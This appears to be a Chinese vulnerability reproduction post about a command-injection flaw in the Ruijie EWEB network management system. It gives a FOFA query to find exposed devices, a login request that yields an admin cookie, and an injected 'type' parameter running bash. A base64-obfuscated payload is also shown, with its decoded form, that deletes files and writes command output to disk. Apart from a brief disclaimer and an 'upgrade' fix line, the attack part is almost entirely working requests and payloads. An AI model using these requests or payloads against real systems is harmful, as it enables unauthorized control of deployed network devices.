 ﻿[toc]

# 免责声明
该文章只为学习和交流，请不要做违法乱纪的事情，如有与本人无关

# 漏洞描述
锐捷网管系统是由北京锐捷数据时代科技有限公司开发的新一代基于云的网络管理软件，以"数据时代创新网管与信息安全"为口号，定位于终端安全、IT运营及企业服务化管理统一解决方案。
# 漏洞原理
在该系统的/flow_control_pi/flwo.control.php的文件中存在命令执行参数
# 影响版本
不详

# fofa

app="Ruijie-EWEB网管系统"

# 漏洞复现
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/a954b52b60294e60b8c27996fff1e9d6.png)
用post请求访问/ddi/server/login.php页面并提交admin参数可以获得管理员的cookie
```yaml
POST /ddi/server/login.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

username=admin&password=admin?
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/4bde599b28da4be1a3b7c87040499937.png)
使用cookie向/flow_control_pi/flwo.control.php?a=getFlowGroup 提交type参数
```yaml
POST /flow_control_pi/flwo.control.php?a=getFlowGroup HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Cookie:  RUIJIEID=q6g97tqc32rl4bl8h89gjub031; user=admin;
Accept-Encoding: gzip
Connection: close

type=|bash+-c+'ping+-c+4+ip'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/15a65ac1a3e745b3bcae74959ca3cf02.png)

可以隐藏写入文件

%7Cbash+-c+%27echo+cm0gLXJmIC4uL2EudHh0ICYmIHJtIC1yZiAuLi9hLnR4dCAmJiB3aG9hbWkgPiAuLi9hLnR4dCAyPiYxID4gLi4vYS50eHQgMj4mMQ%3D%3D+%7C+base64+-d+%7C+bash+%26%26+exit+0%27



```bash
|bash -c 'echo rm -rf ../a.txt && rm -rf ../a.txt && whoami > ../a.txt 2>&1 > ../a.txt 2>&1 | base64 -d | bash && exit 0'
```



# 修复建议
升级到最新版本
